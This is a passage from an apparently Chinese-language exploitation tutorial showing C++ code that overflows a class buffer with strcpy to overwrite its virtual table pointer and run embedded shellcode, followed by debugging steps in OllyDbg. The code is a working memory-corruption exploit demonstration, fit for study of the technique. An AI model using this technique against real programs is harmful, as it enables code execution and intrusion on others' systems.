 ```
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"
"\x90\x90\x90\x90";		# 通过调试确定shellcode的首地址, 被覆盖的虚表指针会指向这里

class myClass
{
public:
	char buf[200];
	virtual void test()
	{
		cout<<"Class Vtable::test()"<<endl;
	}
};

myClass overflow, *p;

int main()
{
	char *p_vtable;
	p_vtable=overflow.buf-4;
	printf("addr: 0x%08x\n",p_vtable);
	__asm int 3;
	
	p_vtable[0]=0xcc;
	p_vtable[1]=0x88;
	p_vtable[2]=0x40;
	p_vtable[3]=0x00;
	strcpy(overflow.buf, shellcode);

	p=&overflow;
	p->test();

	return 0;
}
```

运行*.exe, 弹出异常框, 选择取消自动调用OllyDbg附加调试, 虚表指针已经打印出来
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x006-001.png)
